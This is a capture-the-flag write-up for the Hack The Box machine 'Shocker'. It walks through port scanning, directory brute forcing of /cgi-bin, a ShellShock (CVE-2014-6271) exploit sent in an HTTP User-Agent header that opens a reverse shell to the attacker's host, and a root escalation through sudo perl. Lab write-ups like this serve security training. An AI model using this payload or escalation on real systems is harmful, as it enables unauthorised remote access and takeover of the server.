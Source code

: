 # Shocker HTB writeup

<!---
summary
-->
----------------------------------------------------------------------------------------------------------------------------------------------------
 # Nmap
Nmap scan shows that TCP port 80 (http) and 2222 (ssh) are open.
```
Nmap scan report for 10.129.171.244
Host is up, received user-set (0.064s latency).
Scanned at 2025-06-24 16:43:20 BST for 19s
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE REASON         VERSION
80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
2222/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQD8ArTOHWzqhwcyAZWc2CmxfLmVVTwfLZf0zhCBREGCpS2WC3NhAKQ2zefCHCU8XTC8hY9ta5ocU+p7S52OGHlaG7HuA5Xlnihl1INNsMX7gpNcfQEYnyby+hjHWPLo4++fAyO/lB8NammyA13MzvJy8pxvB9gmCJhVPaFzG5yX6Ly8OIsvVDk+qVa5eLCIua1E7WGACUlmkEGljDvzOaBdogMQZ8TGBTqNZbShnFH1WsUxBtJNRtYfeeGjztKTQqqj4WD5atU8dqV/iwmTylpE7wdHZ+38ckuYL9dmUPLh4Li2ZgdY6XniVOBGthY5a2uJ2OFp2xe1WS9KvbYjJ/tH
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPiFJd2F35NPKIQxKMHrgPzVzoNHOJtTtM+zlwVfxzvcXPFFuQrOL7X6Mi9YQF9QRVJpwtmV9KAtWltmk3qm4oc=
|   256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC/RjKhT/2YPlCgFQLx+gOXhC6W3A3raTzjlXQMT8Msk
Device type: general purpose
Running (JUST GUESSING): Linux 3.X|4.X (92%)
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS fingerprint not ideal because: Didn't receive UDP response. Please try again with -sSU
Aggressive OS guesses: Linux 3.11 - 4.9 (92%), Linux 3.2 - 3.8 (86%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.95%E=4%D=6/24%OT=80%CT=1%CU=%PV=Y%DS=2%DC=T%G=N%TM=685AC7AB%P=x86_64-pc-linux-gnu)
SEQ(SP=102%GCD=1%ISR=10C%TI=Z%II=I%TS=8)
SEQ(SP=FD%GCD=1%ISR=10B%TI=Z%TS=8)
OPS(O1=M552ST11NW6%O2=M552ST11NW6%O3=M552NNT11NW6%O4=M552ST11NW6%O5=M552ST11NW6%O6=M552ST11)
WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)
ECN(R=Y%DF=Y%TG=40%W=7210%O=M552NNSNW6%CC=Y%Q=)
T1(R=Y%DF=Y%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
T5(R=N)
T6(R=N)
T7(R=N)
U1(R=N)
IE(R=Y%DFI=N%TG=40%CD=S)

Uptime guess: 0.002 days (since Tue Jun 24 16:41:18 2025)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=258 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 199/tcp)
HOP RTT      ADDRESS
1   99.36 ms 10.10.14.1
2   99.78 ms 10.129.171.244

Read data files from: /usr/share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jun 24 16:43:39 2025 -- 1 IP address (1 host up) scanned in 19.91 seconds
```
----------------------------------------------------------------------------------------------------------------------------------------------------
# TCP 80 - HTTP
It is a simple website, nothing too suspicious on the home page.
![image](https://github.com/user-attachments/assets/7963425f-a96b-4a4e-a233-0f925077df09)

# Directory Brute Force
```
┌──(kali㉿kali)-[~/…/shocker/results/10.129.171.244/scans]
└─$ feroxbuster -u http://10.129.171.244 -f -n --dont-filter -C 404 
                                                                                                                                                                                  
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.129.171.244
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 💢  Status Code Filters   │ [404]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🤪  Filter Wildcards      │ false
 🪓  Add Slash             │ true
 🚫  Do Not Recurse        │ true
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET       11l       32w      297c http://10.129.171.244/cgi-bin/
200      GET      234l      773w    66161c http://10.129.171.244/bug.jpg
200      GET        9l       13w      137c http://10.129.171.244/
403      GET       11l       32w      295c http://10.129.171.244/icons/
403      GET       11l       32w      303c http://10.129.171.244/server-status/
[####################] - 11s    30001/30001   0s      found:5       errors:0      
[####################] - 11s    30000/30000   2684/s  http://10.129.171.244/  
```

We brute force again on the ```/cgi-bin``` directory with extensions of common script types. There is a script ```user.sh``` on the server.

```
┌──(kali㉿kali)-[~/…/shocker/results/10.129.171.244/scans]
└─$ feroxbuster -u http://10.129.171.244/cgi-bin -f -n --dont-filter -C 404 -x sh,cgi,pl
                                                                                                                                                                                  
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.129.171.244/cgi-bin
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 💢  Status Code Filters   │ [404]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [sh, cgi, pl]
 🏁  HTTP methods          │ [GET]
 🤪  Filter Wildcards      │ false
 🪓  Add Slash             │ true
 🚫  Do Not Recurse        │ true
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
200      GET      234l      773w    66161c http://10.129.171.244/bug.jpg
200      GET        9l       13w      137c http://10.129.171.244/
200      GET        7l       18w      119c http://10.129.171.244/cgi-bin/user.sh
[####################] - 49s   120004/120004  0s      found:3       errors:19     
[####################] - 48s   120000/120000  2483/s  http://10.129.171.244/cgi-bin/ 
```

# user.sh
![image](https://github.com/user-attachments/assets/13133352-d02f-49c9-ab7a-4a29ffd914e6)
----------------------------------------------------------------------------------------------------------------------------------------------------
# Shell as shelly

As the name of the box suggests, ShellShock (CVE-2014-6271) is very likely to be the foothold that helps us gain initial access.
This [article](https://www.invicti.com/blog/web-security/cve-2014-6271-shellshock-bash-vulnerability-scan/) might be helpful for those who are not familiar with it.

We will start a listener on our kali machine on tcp 9001, and send the following request.
```
GET /cgi-bin/user.sh HTTP/1.1

Host: 10.129.171.244

User-Agent: () { :;}; /bin/bash -i >& /dev/tcp/10.10.14.73/9001 0>&1

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Connection: keep-alive

Upgrade-Insecure-Requests: 1

Priority: u=0, i
```
We successfully obtained a shell as Shelly
![image](https://github.com/user-attachments/assets/98446511-15be-4a40-a43d-8e87ed98ebe6)

And we found the ```user.txt``` under shelly's home directory
```
shelly@Shocker:/usr/lib/cgi-bin$ whoami
shelly
shelly@Shocker:/usr/lib/cgi-bin$ cd ~
shelly@Shocker:/home/shelly$ ls
user.txt
shelly@Shocker:/home/shelly$ cat user.txt
e36901b4***
shelly@Shocker:/home/shelly$ 
```
----------------------------------------------------------------------------------------------------------------------------------------------------
# Shell as root
```
shelly@Shocker:/home/shelly$ sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```
Upon checking [GTFOBins](https://gtfobins.github.io/gtfobins/perl/#sudo), we can gain privilege esculation by the following command.
![image](https://github.com/user-attachments/assets/98ce8d18-dd0c-4f0e-94ce-987003315df6)
```
shelly@Shocker:/home/shelly$ sudo perl -e 'exec "/bin/sh";'
# whoami
root
# cat /root/root.txt
59264f***
```



